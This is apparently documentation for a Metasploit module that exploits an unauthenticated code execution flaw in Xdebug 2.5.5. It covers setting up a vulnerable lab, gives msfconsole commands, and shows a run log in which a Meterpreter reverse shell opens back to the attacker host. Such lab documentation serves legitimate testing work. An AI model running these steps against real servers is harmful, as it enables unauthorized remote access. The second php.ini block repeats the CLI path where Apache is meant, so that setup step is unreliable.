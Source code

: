 ## Vulnerable Application

[Xdebug](https://xdebug.org/docs-dbgp.php) is an actively-maintained PHP debugging tool that supports remote debugging of server-side PHP code

This module exploits an unauthenticated vulnerability that allows for the upload of a PHP file and subsequent execution to provide a Meterpreter session back.  The module was tested on XDebug version 2.5.5

The vulnerability was discovered by [Ricter Zheng](https://ricterz.me/posts/Xdebug%3A%20A%20Tiny%20Attack%20Surface) (WARNING: This link is in Chinese.  [Google Translate version](https://translate.google.com/translate?hl=en&sl=auto&tl=en&u=https%3A%2F%2Fricterz.me%2Fposts%2FXdebug%3A%20A%20Tiny%20Attack%20Surface))


### Setting up XDebug 2.5.5 on xUbuntu 16.04 x64 Desktop

Start with a LAMP server:

```
sudo apt update && sudo apt install -y tasksel
sudo tasksel install lamp-server
```

Now grab XDebug, specifically the version cited by @MinatoTW:
```
wget https://xdebug.org/files/xdebug-2.5.5.tgz
tar xvzf xdebug-2.5.5.tgz 
cd xdebug-2.5.5/
php -i
```

Paste the contents of your `php -i` output into [the XDebug installation wizard](https://xdebug.org/wizard.php), which gave me the following:

```
sudo apt install -y php7.0-dev
phpize && ./configure && make
sudo cp modules/xdebug.so /usr/lib/php/20151012/
```

The final step of the wizard is to configure `php.ini`:

```
sudo -s
cat >> /etc/php/7.0/cli/php.ini <<EOL
zend_extension = /usr/lib/php/20151012/xdebug.so
xdebug.remote_enable = 1
xdebug.remote_handler = dbgp
xdebug.remote_autostart = 0
xdebug.remote_connect_back = 1
xdebug.remote_port = 9000
xdebug.remote_host = 127.0.0.1
xdebug.profiler_enable=0
xdebug.profiler_enable_trigger=1
xdebug.profiler_output_dir="/tmp"`
EOL
exit
```

Now that the PHP CLI environment is configured, repeat the above steps for the Apache2 configuration:

```
sudo -s
cat >> /etc/php/7.0/cli/php.ini <<EOL
zend_extension = /usr/lib/php/20151012/xdebug.so
xdebug.remote_enable = 1
xdebug.remote_handler = dbgp
xdebug.remote_autostart = 0
xdebug.remote_connect_back = 1
xdebug.remote_port = 9000
xdebug.remote_host = 127.0.0.1
xdebug.profiler_enable=0
xdebug.profiler_enable_trigger=1
xdebug.profiler_output_dir="/tmp"`
EOL
exit
```

And restart Apache2 for good measure:
```
sudo service apache2 restart
```

And now test that XDebug is working:
```
php -r 'echo xdebug_time_index();'; echo
```

You should see a fairly small number, in my case `4.6014785766602E-5`, which indicates the number of seconds since the php script started, thus the incredibly small number.


## Verification Steps

- Start `msfconsole`
- `use exploits/unix/http/xdebug_rce`
- `check`
- `set RHOST 192.168.69.2`
- `set LHOST 192.168.69.1`
- `set VERBOSE true` (optional)
- `exploit`

## Scenarios

### XDebug 2.5.5 on Ubuntu 16.04 with Apache2 2.4.18

msf exploit(unix/http/xdebug_unauth_exec) > check

[*] 192.168.69.2:80 - Request sent
Date: Fri, 27 Apr 2018 21:00:37 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: XDEBUG_SESSION=WIO6hf4Wez; expires=Fri, 27-Apr-2018 22:00:37 GMT; Max-Age=3600; path=/
Content-Length: 16
Content-Type: text/html; charset=UTF-8


[+] 192.168.69.2:80 - Looks like remote server has xdebug enabled

[*] 192.168.69.2:80 The target service is running, but could not be validated.


msf exploit(unix/http/xdebug_unauth_exec) > exploit

[*] Started reverse TCP handler on 192.168.69.1:4444
[*] 192.168.69.2:80 - Waiting for client response.
[*] 192.168.69.2:80 - Receiving response
508<?xml version="1.0" encoding="iso-8859-1"?>
<init xmlns="urn:debugger_protocol_v1" xmlns:xdebug="http://xdebug.org/dbgp/xdebug" fileuri="file:///var/www/html/index.php" language="PHP" xdebug:language_version="7.0.28-0ubuntu0.16.04.1" protocol_version="1.0" appid="28166" idekey="5Gg6S9au8B"><engine version="2.5.5"><![CDATA[Xdebug]]></engine><author><![CDATA[Derick Rethans]]></author><url><![CDATA[http://xdebug.org]]></url><copyright><![CDATA[Copyright (c) 2002-2017 by Derick Rethans]]></copyright></init>
[*] 192.168.69.2:80 - Shell might take upto a minute to respond.Please be patient.
[*] 192.168.69.2:80 - Sending payload of size 2098 bytes
[*] Sending stage (37775 bytes) to 192.168.69.2
[*] Meterpreter session 1 opened (192.168.69.1:4444 -> 192.168.69.2:55506) at 2018-04-27 15:57:58 -0500
[+] 192.168.69.2:80 - Deleted /tmp/OLEaK

